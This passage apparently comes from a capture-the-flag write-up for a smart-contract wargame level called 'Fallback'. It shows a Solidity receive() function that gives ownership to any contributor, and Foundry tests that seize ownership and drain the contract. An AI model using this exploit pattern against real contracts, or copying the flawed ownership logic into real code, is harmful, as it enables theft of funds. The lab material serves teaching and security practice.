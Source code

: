 
---

## Level 2: Fallback

### 🔍 Vulnerable Function
```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

**Vulnerability**: The fallback function allows any contributor to become the `owner` by sending ETH directly to the contract. The original `owner` logic is also flawed—it can be overtaken easily by minimal contributions.

### 🧪 Exploit Test
```solidity
function test_attack() public {
    vm.startPrank(attacker);
    _fallback.contribute{value: 0.0001 ether}();

    (bool success, ) = address(_fallback).call{value: 0.001 ether}("");
    require(success, "Fallback call failed");

    assertEq(_fallback.owner(), attacker, "Attacker is not the owner after fallback");
}

function test_withdraw() public {
    vm.startPrank(attacker2);
    _fallback.contribute{value: 0.0001 ether}();
    _fallback.contribute{value: 0.0001 ether}();
    vm.stopPrank();

    vm.startPrank(attacker);
    _fallback.contribute{value: 0.0001 ether}();
    (bool success, ) = address(_fallback).call{value: 0.001 ether}("");
    require(success, "Fallback call failed");

    uint256 balanceBefore = address(_fallback).balance;
    _fallback.withdraw();

    assertTrue(attacker.balance >= balanceBefore, "Attacker did not receive the funds");
    assertTrue(address(_fallback).balance == 0, "Contract balance is not zero after withdraw");
    vm.stopPrank();
}
```



---
